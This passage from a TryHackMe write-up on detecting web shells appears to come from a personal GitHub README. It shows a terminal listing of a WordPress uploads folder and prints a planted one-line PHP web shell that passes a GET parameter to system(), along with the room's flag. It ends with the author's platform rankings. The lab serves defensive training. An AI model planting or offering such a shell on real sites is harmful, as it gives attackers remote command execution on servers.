 ```bash
ubuntu@tryhackme:/var/www/html/wordpress/wp-content/uploads$ ls
2025  customerinfo.pdf  linpeas.sh  pic1.png  pic2.png  shadyshell.php
ubuntu@tryhackme:/var/www/html/wordpress/wp-content/uploads$ cat shadyshell.php
<?php system($_GET['cmd']); ?>

<!-- FLAG: THM{W3b_Sh3ll_Int3rnals} -->
```

<br>
<h2>Task 7 . Conclusion</h2>
<p>In this room, we covered how to detect web shells through log, file system, network, and behavioral analysis using a combination of native OS utilities and specialized security tools. By working through log samples and simulated attack scenarios, we developed a deeper understanding of how web shells behave and how to uncover them using real-world indicators.</p>

<p><em>Answer the question below</em></p>

<p>7.1. Complete the room and continue on your cyber learning journey!<br>
<code>No answer needed</code></p>

<br>
<br>

<h1 align="center">Completed</h1>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/98774f0b-90f2-456a-93b2-f95563a342e7"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/32ec7b03-8a80-4f40-88e4-b0d458ab3cb4"></p>


<img width="1893" height="898" alt="image" src="https://github.com/user-attachments/assets/32ec7b03-8a80-4f40-88e4-b0d458ab3cb4" />


<br>

<h1 align="center">My TryHackMe Journey</h1>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| 2025, August 6    |   457    |     131ˢᵗ    |      5ᵗʰ     |     594ᵗʰ   |    11ˢᵗ   | 119,390  |    899    |    73     |


</div>

<p align="center">Global All Time:   131ˢᵗ<br><img width="250px" src="https://github.com/user-attachments/assets/55fd6002-ad62-468e-9bec-a07a1bf09409"><br>
                                              <img width="1200px" src="https://github.com/user-attachments/assets/15757a8a-c71a-4def-aa28-e438b8245052"><br><br>
                  Brazil All Time:     5ᵗʰ<br><img width="1200px" src=https://github.com/user-attachments/assets/47f8762e-597e-4e7f-8ebe-2c3439033566"><br>
                  Global monthly:    594ᵗʰ<br><img width="1200px" src="https://github.com/user-attachments/assets/daab4341-1a36-4f69-a0de-ce9a014ea0ae"><br>
                  Brazil monthly:     11ˢᵗ<br><img width="1200px" src="https://github.com/user-attachments/assets/625ffd52-4f9f-42d3-8e8d-29039d15d4b5"><br>

<br>
<h1 align="center">Thanks for Coming!</h1>
<p align="center">Follow me on <a href="https://medium.com/@RosanaFS">Medium</a>, here on <a href="https://github.com/RosanaFSS/TryHackMe">GitHub</a>, and on <a href="https://www.linkedin.com/in/rosanafssantos/">LinkedIN</a>.</p> 
